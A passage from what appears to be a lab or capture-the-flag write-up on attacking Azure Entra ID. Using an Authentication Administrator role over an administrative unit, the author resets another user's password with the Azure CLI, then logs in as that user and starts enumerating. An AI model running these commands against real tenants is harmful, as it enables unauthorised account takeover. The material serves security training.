 ```bash

```

## 3.2 Hi Daiki - Reset Password using AU

Daiki is a member of the group `Megabigtech-UNIT1`.  So just to recap, a user `dbuser` holds high privilege, as an Authentication Administrator, on a group `Megabigtech-UNIT1` and Daiki is a member of the group. 

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/directory/administrativeUnits/47e4803e-a5ef-4ebc-b967-691815870abd/members" | jq '.value[]'
{
  "@odata.type": "#microsoft.graph.user",
  "businessPhones": [],
  "displayName": "Daiki Hiroko",
  "givenName": "Daiki",
  "id": "01cefafa-a156-46ec-9b0c-ce6b625144a2",
  "jobTitle": "Mid Developer",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hiroko",
  "userPrincipalName": "Daiki.Hiroko@megabigtech.com"
w}

```


Let’s reset Daiki’s password. 
```bash
az ad user update --id Daiki.Hiroko@megabigtech.com --password '1qaz2wsx!QAZ@WSX'    

```
Once I logged in from the command line,  the web asks to update the password. 

![](https://i.imgur.com/aJa1o0X.png)


Now, let's enumerate Daiki's resources:


```bash
	az login -u Daiki.Hiroko@megabigtech.com -p *****

az ad signed-in-user show
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "Daiki Hiroko",
  "givenName": "Daiki",
  "id": "01cefafa-a156-46ec-9b0c-ce6b625144a2",
  "jobTitle": "Mid Developer",
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": "Hiroko",
  "userPrincipalName": "Daiki.Hiroko@megabigtech.com"
}

```
